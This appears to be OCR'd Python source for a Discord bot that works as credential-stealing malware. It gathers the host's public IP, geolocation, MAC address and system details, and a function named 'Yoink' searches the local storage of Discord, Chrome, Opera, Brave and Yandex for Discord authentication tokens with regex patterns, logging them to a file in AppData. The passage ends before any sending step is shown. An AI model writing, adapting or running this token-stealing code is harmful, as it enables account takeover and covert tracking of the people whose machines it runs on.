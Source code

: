 ```

intents = discord.Intents.default()
intents.message_content = True
bot = commands.Bot(command_prefix='!', intents=intents)

def scale(bytes, suffix="B"):
    defined = 1024
    for unit in ["", "K", "M", "G", "T", "P"]:
        if bytes < defined:
            return f"{bytes:.2f}{unit}{suffix}"
        bytes /= defined

uname = platform.uname()
bt = datetime.fromtimestamp(psutil.boot_time())
host = socket.gethostname()
localip = socket.gethostbyname(host)

publicip = get(f'https://ipinfo.io/ip').text
city = get(f'https://ipinfo.io/{publicip}/city').text
region = get(f'https://ipinfo.io/{publicip}/region').text
postal = get(f'https://ipinfo.io/{publicip}/postal').text
timezone = get(f'https://ipinfo.io/{publicip}/timezone').text
currency = get(f'https://ipinfo.io/{publicip}/currency').text
country = get(f'https://ipinfo.io/{publicip}/country').text
loc = get(f"https://ipinfo.io/{publicip}/loc").text
vpn = requests.get('http://ip-api.com/json?fields=proxy')
proxy = vpn.json()['proxy']
mac = get_mac()

roaming = os.getenv('AppData')
output = open(roaming + "temp.txt", "a")

Directories = {
        'Discord': roaming + '\\Discord',
        'Discord Two': roaming + '\\discord',
        'Discord Canary': roaming + '\\Discordcanary',
        'Discord Canary Two': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': roaming + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': roaming + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': roaming + '\\Yandex\\YandexBrowser\\User Data\\Default',
}

def Yoink(Directory):
    Directory += '\\Local Storage\\leveldb'
    Tokens = []

    for FileName in os.listdir(Directory):
        if not FileName.endswith('.log') and not FileName.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{Directory}\\{FileName}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for Token in re.findall(regex, line):
                    Tokens.append(Token)

    return Tokens

def Wipe():
    if os.path.exists(roaming + "temp.txt"):
      output2 = open(roaming + "temp.txt", "w")
```